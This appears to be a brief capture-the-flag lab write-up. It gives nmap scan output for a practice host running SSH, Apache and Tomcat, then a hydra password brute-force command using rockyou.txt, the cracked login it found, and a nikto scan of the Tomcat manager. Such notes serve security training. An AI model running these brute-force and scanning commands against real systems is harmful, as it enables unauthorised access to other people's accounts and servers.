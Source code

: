 # nmap

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-19 11:49 IST
Warning: 10.10.48.190 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.48.190
Host is up (0.17s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:f1:c2:7d:62:b5:e9:20:ea:ac:58:af:8c:58:0d:75 (RSA)
|   256 58:ed:06:48:38:15:a9:03:01:31:f8:b3:ac:cc:88:e6 (ECDSA)
|_  256 be:08:f4:ca:98:cf:c0:e9:b5:99:0a:e4:15:43:d1:dd (ED25519)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
1234/tcp open     http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
5940/tcp filtered unknown
8009/tcp open     ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```



# gobusrer

found 2 directory `/protcted` `/guidelines`

used hydra to crack password

`hydra -l bob -P ~/Downloads/rockyou.txt 10.10.48.190 http-get /protected`

`bob:bubbles`

used nikto to find dir

`nikto -id bob:bubble -h  http://10.10.48.190:1234/manager/html`